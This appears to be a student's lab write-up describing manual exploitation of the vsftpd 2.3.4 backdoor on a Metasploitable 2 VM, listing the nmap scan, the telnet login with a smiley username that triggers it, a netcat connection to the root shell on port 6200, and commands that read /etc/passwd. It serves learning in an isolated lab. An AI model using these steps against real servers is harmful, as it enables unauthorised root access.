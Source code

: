 
# Manual Exploitation of vsftpd 2.3.4 on Metasploitable 2

## 📌 Overview

In this project, I manually exploited a backdoor vulnerability (CVE-2011-2523) in **vsftpd 2.3.4**, running on Metasploitable 2. The goal was to gain remote root shell access **without using Metasploit**, to understand the fundamentals of real-world vulnerabilities.

---

## 🛠 Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `ping`       |

---

## 🔍 Exploitation Steps

### 1. Identify Metasploitable IP Address

Inside the target VM:
```bash
ifconfig
```

📸 *Screenshot: Metasploitable showing IP*

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

📸 *Screenshot: Successful ping*

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

📸 *Screenshot: Nmap result*

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Credentials:
```
USER test:)
PASS test
```

📸 *Screenshot: Connection closed (trigger successful)*

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

📸 *Screenshot: Root shell access*

---

## 🧠 Lessons Learned

- Backdoors like this are rare but real — a simple `:)` in the username triggered root access.
- Manual exploitation builds a deeper understanding of networking, protocols, and how attackers think.
- Timing matters: the exploit may only work once per Metasploitable boot.
- Network config + permissions (especially with VirtualBox) were major learning points.

---

## 📸 Screenshots (Suggested)

1. Metasploitable IP
2. Ping success from Kali
3. Nmap scan results
4. Telnet trigger
5. Netcat shell
6. Root command output
7. (Optional) Custom file creation like `/root/owned.txt`

---

## ✅ Completion Checklist

| Task                          | Status |
|-------------------------------|--------|
| VM Setup                      | ✅     |
| Nmap Scanning                 | ✅     |
| Manual Exploit Triggered      | ✅     |
| Remote Root Shell Achieved    | ✅     |
| File Transfer / Documentation | ✅     |
| Writeup                       | ✅     |

---

## 🔚 Final Thoughts

This was my first hands-on manual exploitation project. No Metasploit, no automation — just raw tools and logic. I now understand what it actually means to "own" a box.
